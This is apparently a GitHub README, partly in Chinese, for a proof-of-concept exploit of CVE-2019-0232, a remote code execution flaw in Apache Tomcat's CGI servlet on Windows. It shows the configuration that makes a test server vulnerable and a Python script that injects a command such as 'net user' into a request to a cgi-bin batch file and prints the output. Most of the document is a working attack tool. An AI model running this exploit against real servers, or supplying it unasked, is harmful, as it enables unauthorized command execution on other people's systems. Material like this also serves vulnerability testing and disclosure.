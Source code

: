 # CVE-2019-0232
Apache Tomcat Remote Code Execution on Windows - CGI-BIN

`Windows上的Apache Tomcat远程执行代码 cgi-bin`
![](./CVE-2019-0232.png)

# 使用：

```

Usage: python CVE-2019-0232.py url cmd

```


![](./whoami.jpg)
![](./net-user.jpg)

# 测试环境：
```
jdk8
apache-tomcat-8.5.39

https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.39/bin/apache-tomcat-8.5.39.zip
```


## 漏洞搭建：修改conf目录配置文件 启功CGI,启动tomcat server服务

#### 参考 https://github.com/pyn3rd/CVE-2019-0232

#### apache-tomcat-8.5.39\conf\web.xml

```
<servlet>
        <servlet-name>cgi</servlet-name>
        <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
        <init-param>
          <param-name>debug</param-name>
          <param-value>0</param-value>
        </init-param>
        <init-param>
          <param-name>cgiPathPrefix</param-name>
          <param-value>WEB-INF/cgi-bin</param-value>
        </init-param>
        <init-param>
          <param-name>executable</param-name>
          <param-value></param-value>
        </init-param>
         <load-on-startup>5</load-on-startup>
</servlet> 
```
#### apache-tomcat-8.5.39\conf\context.xml

```
<Context privileged="true">

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="" />
    -->
</Context>

```



## 编写python脚本：

```
import requests
import sys

# http://localhost:8080/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5Cnet.exe+user

url = sys.argv[1]

url_dir = "/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5C"

cmd = sys.argv[2]

vuln_url = url + url_dir +cmd


print '''
   _______      ________    ___   ___  __  ___          ___ ___  ____ ___  
  / ____\ \    / /  ____|  |__ \ / _ \/_ |/ _ \        / _ \__ \|___ \__ \ 
 | |     \ \  / /| |__ ______ ) | | | || | (_) |______| | | | ) | __) | ) |
 | |      \ \/ / |  __|______/ /| | | || |\__, |______| | | |/ / |__ < / / 
 | |____   \  /  | |____    / /_| |_| || |  / /       | |_| / /_ ___) / /_ 
  \_____|   \/   |______|  |____|\___/ |_| /_/         \___/____|____/____|
  
             Apache Tomcat Remote Code Execution on Windows - CGI-BIN
                                  By Jas502n


'''

print "Usage: python CVE-2019-0232.py url cmd"

print "The Vuln url:\n\n" ,vuln_url

r = requests.get(vuln_url)


print "\nThe Vuln Response Content: \n\n" , r.content

```

## 参考链接：

https://github.com/pyn3rd/CVE-2019-0232
